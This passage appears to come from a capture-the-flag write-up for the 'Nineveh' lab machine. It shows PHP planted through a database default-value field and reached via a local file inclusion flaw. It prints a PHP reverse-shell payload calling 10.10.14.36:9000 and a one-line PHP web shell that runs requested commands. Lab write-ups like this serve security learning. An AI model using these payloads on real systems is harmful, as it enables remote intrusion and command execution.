 On the `Default value` field, put PHP code, and set the type as `TEXT`.
Here is the full payload : 
`<?php $sock=fsockopen("10.10.14.36",9000);system("/bin/sh -i <&3 >&3 2>&3"); ?>`

![](attachments/nineveh_11.png)

Then, it's created.

![](attachments/nineveh_12.png)

![](attachments/nineveh_13.png)

Given the `Path to database`, I think I need to fetch `/var/tmp/rshell.php`.
I can use **LFI Vulnerability found on http(80) service**.

...

I tested to open a reverse shell, but it didn't work.
Instead, `cmd.php` payload worked : `<?php system($_REQUEST["cmd"]); ?>`

![](attachments/nineveh_15.png)
